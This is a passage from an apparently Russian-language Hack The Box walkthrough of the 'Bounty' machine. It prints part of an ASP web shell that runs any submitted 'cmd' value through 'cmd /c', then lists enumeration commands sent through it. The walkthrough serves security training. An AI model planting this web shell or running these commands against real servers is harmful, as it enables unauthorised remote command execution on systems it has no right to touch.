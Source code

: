 ```xml
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<% Response.Write(Request.ServerVariables("SERVER_NAME")) %>
<p>
<b>The server's local address:</b>
<% Response.Write(Request.ServerVariables("LOCAL_ADDR")) %>
</p>
<p>
<b>The server's port:</b>
<% Response.Write(Request.ServerVariables("SERVER_PORT")) %>
</p>
<p>
<b>The server's software:</b>
<% Response.Write(Request.ServerVariables("SERVER_SOFTWARE")) %>
</p>
<p>
<b>Command output:</b>
<%
szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)
%>
</p>
<br>
</BODY>

<% Response.write("<!-"&"-") %>
-->
```

Который в жизни будет выглядеть таким образом:

[![bounty-port80-browser-6.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-6.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-6.png" | relative_url }})

И соберем информацию о машине.

1\. `whoami`. Спрашиваем имя пользователя, который крутит веб-сервер:

[![bounty-port80-browser-7.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-7.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-7.png" | relative_url }})

2\. ``(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell``. Спрашиваем, что используется по дефолту: CMD или PowerShell:

[![bounty-port80-browser-8.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-8.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-8.png" | relative_url }})

3\. `echo %cd%`. Узнаем текущую директорию:

[![bounty-port80-browser-9.png]({{ "/img/htb/boxes/bounty/bounty-port80-browser-9.png" | relative_url }})]({{ "/img/htb/boxes/bounty/bounty-port80-browser-9.png" | relative_url }})
